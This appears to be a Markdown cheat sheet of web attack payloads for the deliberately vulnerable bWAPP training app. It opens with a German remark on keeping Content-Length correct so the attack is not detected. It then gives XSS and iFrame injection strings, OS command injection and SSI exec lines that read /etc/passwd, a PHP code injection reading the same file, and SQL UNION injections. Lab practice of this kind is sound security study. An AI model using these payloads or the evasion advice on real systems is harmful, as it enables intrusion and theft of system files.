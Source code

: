 ! ! ! Die content länge(Content-Length) sollte beim manipulieren beachtet werden. Wird diese unter- oder überschritten könnte es dazu führen dass der Angriff erkannt wird und der POST nicht erfolgreich abgesetzt werden kann.

---
##### iFrame Injection
~~~js
ParamUrl=robots.txt" onload="alert(1)
ParamHeight="></iframe><script>alert(1);</script>
~~~

---
##### LDAP Injection (Search)
---
##### Mail Header Injection (SMTP)
---
##### OS Command Injection
~~~
localhost:8083; cat /etc/passwd
localhost:8083 & cat /etc/passwd
localhost:8083 | cat /etc/passwd
~~~

---
##### OS Command Injection - Blind
~~~
localhost:8083 | sleep 10
~~~
---
##### PHP Code Injection
~~~php
/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
~~~

---
##### Server-Side Includes (SSI) Injection
~~~htm
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
~~~

---
##### SQL Injection (GET/Search)
~~~SQL
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;--
~~~

---

##### SQL Injection (GET/Select)
~~~SQL
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--
~~~

---